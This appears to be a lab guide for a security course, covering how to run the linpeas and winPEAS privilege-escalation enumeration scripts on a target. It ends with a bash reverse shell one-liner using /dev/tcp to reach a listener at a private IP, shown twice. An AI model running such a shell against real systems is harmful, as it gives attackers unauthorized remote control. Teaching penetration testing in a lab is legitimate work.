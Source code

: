 

# Enumeration Scripts

Note:  Enumeration scripts for this lab are located in 
`~/cnm352-tools/scripts`

## Linux

### Linpeas

To run the Linpeas enumeration script, first transfer the linpeas.sh file to the target and set the execute bits.

```bash
chmod +x linpeas.sh
```

Run the script one of two ways to capture output:

```bash
# Don't show output at the CLI, only capture to a file
./linpeas.sh > linpeas.txt

# Show output at CLI AND capture to file
./linpeas.sh | tee linpeas.txt
```

To view the output of the file in Kali with color coding:

```bash
less -r linpeas.txt
# Answer Y when asked if you want to continue opening
```

## Windows

### Winpeas

Winpeas for Windows comes in multiple varieties.  The best one to use depends on the situation, but running each is straightforward:

```bash
# Batch file (for worst case scenarios)
winPEAS.bat > winpeas.txt

# 32-bit & compatible with 64-bit
winPEASx86.exe > winpeas.txt

# 64-bit only
winPEASx64.exe > winpeas.txt

# Viewing file from Windows CLI
type winpeas.txt
```

### Reverse Shell Without Netcat

You are not always guaranteed to have netcat on a target system.  You could always transfer the netcat binary.  However, it's also possible to initiate a reverse shell connection without netcat on the target.  

You will still need to start a netcat listener on Kali, but issuing this command on the target will cause the target to connect back in a reverse shell:

```bash
# Example 
# Connect to a netcat listener on 10.250.226.250 port 8001
bash &>/dev/tcp/10.250.226.250/8001 <&1
```

NOTE:  If echoing this command into a file, BE SURE to enclose it in single quotes or it will execute commands:

```bash
# Example
echo 'bash &>/dev/tcp/10.250.226.250/8001 <&1' > somefile.sh
```

